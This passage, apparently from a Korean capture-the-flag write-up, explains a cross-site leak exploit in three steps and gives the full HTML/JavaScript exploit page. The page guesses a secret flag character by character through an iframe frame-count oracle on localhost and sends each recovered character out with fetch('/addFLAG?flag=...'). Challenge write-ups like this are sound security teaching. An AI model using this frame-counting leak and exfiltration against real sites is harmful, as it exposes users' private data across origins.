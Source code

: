 **exploit**
익스플로잇의 흐름은 다음과 같습니다.
1. `iframe`에 접근합니다.
2. `iframe`주소에 시도하고 있는 문자를 추가합니다. 
3. `iframe.contentWindow.frames.length`로 frame의 개수를 확인합니다.
    - frame 개수가 0이면 flag문자를 추가합니다.
    - frame 개수가 0이 아니면 다음 문자를 시도합니다.

<br>

전체 익스플로잇 코드입니다.
**index.html**
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
</head>
<body>
    <iframe id="iframe"></iframe>
    <script>
        const ALPHABET = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789{}_";
        const FLAG_START = '{{ flag }}';

        const request = async (url) => {
            return new Promise((resolve, reject) => {
                const iframe = document.getElementById("iframe");
                iframe.src = url;
                iframe.onload = () => iframe.contentWindow.frames.length === 0 ? resolve() : reject();
            });
        }

        const leak = async (query) => {
            try {
                await request(`http://localhost/flag?flag=${query}`);
                return true;
            } catch (e) {
                return false;
            }
        }

        const exploit = async () => {
            let flag = FLAG_START;
            while (!flag.includes("}")) {
                for (let char of ALPHABET) {
                    if (await leak(flag + char)) {
                        flag += char;
                        await fetch('/addFLAG?flag=' + char);
                        break;
                    }
                }
            }
        }

        exploit();
    </script>
</body>
</html>
```
<br>
